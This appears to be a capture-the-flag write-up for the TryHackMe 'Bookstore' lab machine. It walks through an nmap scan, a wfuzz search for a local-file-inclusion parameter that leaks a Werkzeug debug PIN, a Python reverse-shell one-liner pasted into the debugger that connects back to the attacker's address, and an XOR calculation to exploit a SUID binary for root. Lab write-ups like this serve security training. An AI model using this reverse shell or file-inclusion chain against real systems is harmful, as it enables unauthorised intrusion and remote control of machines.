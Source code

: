 # TryHackMe-Bookstore

## NMAP

```
Nmap scan report for 10.10.117.123
Host is up (0.15s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Book Store
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1323.85 seconds

```

## PORT 80

<img src="https://imgur.com/TTzO2wr.png"/>

## PORT 5000

<img src="https://imgur.com/NDu92Ye.png"/>

As we saw from nmap scan that there is a `robots.txt` file at port 5000

<img src="https://imgur.com/dI8y0tJ.png"/>

<img src="https://imgur.com/4X8nlfw.png"/>

Running gobuster on this port we see a console a type of debugger

<img src="https://imgur.com/JhylVwm.png"/>

<img src="https://imgur.com/DRbVY4g.png"/>

But it's asking for a PIN.

I found a metasploit exploit for it but it didn't worked

<img src="https://imgur.com/oGgxBQO.png"/>

Going back to port 80 and then looking at the login page source we find that PIN is in bash history file of user `sid`.

We know there are two versions of api v1 and v2 , v1 is likely to be vulnerable to LFI so let's choose the endpoint that has a parameter

`/api/v2/resources/books?id=1`

Change this to 

`/api/v1/resources/books?id=.bash_history`

then put it in `wfuzz`

### Wfuzz

```
wfuzz -u http://10.10.117.123:5000/api/v1/resources/books\?FUZZ\=.bash_history -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404
```

Here 

`-u`    the host with the api-endpoint
`?FUZZ` here ? is before the paramter and "FUZZ" is the location where we want to find the paramter
`--hc`  is telling to hide status codes like 404 which is not found

<img src="https://imgur.com/xh9A7H1.png"/>

<img src="https://imgur.com/TJWxLdg.png"/>

```
cd /home/sid whoami export WERKZEUG_DEBUG_PIN=123-321-135 echo $WERKZEUG_DEBUG_PIN python3 /home/sid/api.py ls exit 
```

<img src="https://imgur.com/AB6oKEG.png"/>

And now we can interact with the debugger also in order to get into the box we have to paste a reverse shell there

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.209.100",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

```
Paste this on to the debugger and set your netcat listener

<img src="https://imgur.com/sbTCu2l.png"/>


## Privlege Escalation


<img src="https://imgur.com/VZSpKHD.png"/>

We see a binary which has a SUID on it so it can run as a root but we need to figure out what it is doing and how we can execute it properly to get root


On analyzing the binary with `ghidra`

<img src="https://imgur.com/F16KKwC.png"/>

?    ----> local_1c is the number we are going to input
4374 ---->
23987 ---> local_18

local_14 has to be this number 1573724660

I have converted those hexadecimal number to decimal to get a better understanding


`local_14 = local_1c ^ 4374 ^ local_18`


What's happening in here is that these three values are getting through and exclusive OR operator `^` .We don't know what value we put inorder to get `1573724660`.

So I'll convert hex values to decimal and XOR between them

```
1573724660 ^ 4374 ^ local_18

1573724660 ^ 4374 ^ 23987

1573724660 ^ 19621

1573743953

```
<img src="https://imgur.com/Bk3Svt9.png"/>

Let's try the final result we got

<img src="https://imgur.com/8AdgZpm.png"/>

And we are root !